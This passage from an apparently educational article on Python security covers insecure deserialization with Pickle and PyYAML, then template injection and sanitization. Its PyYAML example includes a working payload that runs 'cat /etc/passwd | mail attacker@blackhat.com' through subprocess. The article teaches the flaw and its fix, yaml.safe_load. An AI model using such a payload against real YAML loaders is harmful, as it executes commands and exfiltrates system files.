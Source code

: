 ## Insecure deserialization

Many data serialization techniques exist, among them
[Pickle](https://docs.python.org/3/library/pickle.html) is designed
specifically to de/serialize Python objects. Its goal is to dump live Python
objects into an octet stream for storage or transmission, then reconstruct
them back to possibly another instance of Python. The reconstruction step is
inherently risky if serialized data is tampered with. The insecurity of Pickle
is well recognized and clearly noted in Python documentation.

Being a popular configuration file format, YAML is not necessarily perceived
as a powerful serialization protocol capable of tricking a deserializer into
executing arbitrary code. What makes it even more dangerous is that the de
facto default YAML implementation for Python -
[PyYAML](http://pyyaml.org/wiki/PyYAMLDocumentation) makes deserialization
look very innocent:

[code]

       >>> import yaml
       >>>
       >>> dangerous_input = """
       ... some_option: !!python/object/apply:subprocess.call
       ...   args: [cat /etc/passwd | mail attacker@blackhat.com]
       ...   kwds: {shell: true}
       ... """
       >>> yaml.load(dangerous_input)
       {'some_option': 0}
    
[/code]

...while /etc/passwd is being stolen. A suggested fix is to always use
`yaml.safe_load` for handling YAML serialization you can't trust. Still, the
current PyYAML default feels somewhat provoking considering other
serialization libraries tend to use `dump`/`load` function names for similar
purposes, but in a safe manner.

## Templating engines

Web application authors adopted Python long ago. Over the course of a decade,
quite a number of Web frameworks have been developed. Many of them utilize
[templating engines](https://wiki.python.org/moin/Templating) for generating
dynamic web contents from, well, templates and runtime variables. Aside from
web applications, templating engines found their way into completely different
software such as the Ansible IT automation tool.

When content is being rendered from static templates and runtime variables,
there is a risk of user-controlled code injection through runtime variables. A
successfully mounted attack against a web application may lead to a [cross-
site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)
vulnerability. Usual mitigation for server-side template injection is to
sanitize the contents of template variables before it interpolates into the
final document. The sanitization can be done by denying, stripping off or
escaping characters that are special to any given markup or other domain-
specific language.
